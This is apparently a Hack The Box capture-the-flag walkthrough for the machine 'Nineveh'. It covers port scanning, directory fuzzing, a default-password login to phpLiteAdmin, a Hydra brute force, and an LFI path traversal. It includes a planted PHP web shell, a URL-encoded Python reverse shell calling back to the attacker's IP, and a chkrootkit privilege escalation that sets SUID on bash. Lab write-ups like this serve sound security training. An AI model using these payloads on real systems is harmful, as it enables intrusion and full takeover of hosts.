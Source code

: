 # HTB - Nineveh

#### Ip: 10.129.69.39
#### Name: Nineveh
#### Rating: Medium

----------------------------------------------------------------------

Nineveh.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.69.39 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-08 13:45 CDT
Nmap scan report for 10.10.10.43
Host is up (0.070s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.98 seconds
```

Ok looks just like HTTP and HTTPS open for this box. Lets add nineveh.htb to `/etc/hosts` first off.

Looking at the page on port 80 we find a basic HTML landing page:

```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

And on port 443 we find a simple image:

nineveh_443.png

Using basic directory fuzzing we find a `/db` page, which appears to be a phpLiteAdmin page:

nineveh_db.png

After trying just a few low-hanging-fruit passwords, I found I was able to login with the password `password123`.

Looking for exploits for phpLiteAdmin 1.9 I find: https://www.exploit-db.com/exploits/24044

This exploit clearly lays out steps we need to take to exploit this:

```
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Lets take this idea and try to create a webshell. We'll create a new db called shell.php, and add a table called shell. From here we can replicate the step above and add the text field `<?php system($_GET["cmd"]); ?>`.

nineveh_shell.png

CLicking create and returning to the shell.php db page we see it is being stored in `/var/tmp/shell.php` which means until we get deeper access to the target it doesn't seem usable to us yet.

Lets take step back and perform more thorough directory fuzzing:

For port 80:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 80_dirs.txt 
```

and port 443:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -k  -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 443_dirs.txt 
```

Looking at the scan output we find a department login page:

nineveh_dirs80.png

nineveh_department.png

And looking at the page source we find an interesting comment:

nineveh_source.png

Looks like Mysql is running internally, and we also discover a potential username amrois.

Trying to login if we enter `admin` as the username and an incorrect password we get the error `invalid password!`, but if we enter something like `root:root` we get the error `incorrect username`. This lets us know the username `admin` exists.

Trying common passwords got me nowhere here so I fired up Hydra and we found a hit:

nineveh_hydra.png

`admin:1q2w3e4r5t`

We can now access the site:

nineveh_in.png

In the Notes section we find another note from amrois:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The path for Notes is: http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

Which looks like its worth testing LFI here.

Fiddling around with placement, I eventually found an LFI at: http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd

nineveh_lfi1.png

Trying to use this LFI to interact with the shell.php file we uploaded earlier, we can confirm execution as user www-data:

nineveh_webshell.png

Lets grab a python reverse shell one-liner from revshell.com, URL encode it, and pass it as our command:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../var/tmp/shell.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.214%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ nc -lnvp 443                                             
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.69.39] 34386
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
www-data@nineveh:/var/www/html/department$ hostname
hostname
nineveh
```

Now that we have a shell on the target we can attempt to access the user.txt flag in amrois `/home` directory, but get an access denied:

```
www-data@nineveh:/home/amrois$ cat user.txt
cat: user.txt: Permission denied
```

Not finding much of interest I decided to load pspy64, and we find that `chkrootkit` is running very frequently:

nineveh_chkroot.png

Looking for exploits I find: https://www.exploit-db.com/exploits/33899

Lets create a file called `update` in `/tmp` that sets the SUId on `/bin/bash`

```
www-data@nineveh:/tmp$ cat update 
#!/bin/bash
/bin/chmod 4755 /bin/bash
```

We can then make it executable and assign it open permissions:

```
www-data@nineveh:/tmp$ chmod +x /tmp/update
www-data@nineveh:/tmp$ chmod 777 /tmp/update
```

We can wait just a second or two before running `/bin/bash -p` to drop into a root shell:

```
www-data@nineveh:/tmp$ /bin/bash -p         
bash-4.3# whoami
root
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

And we can now grab the two flags:

nineveh_user_flag.png

nineveh_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------

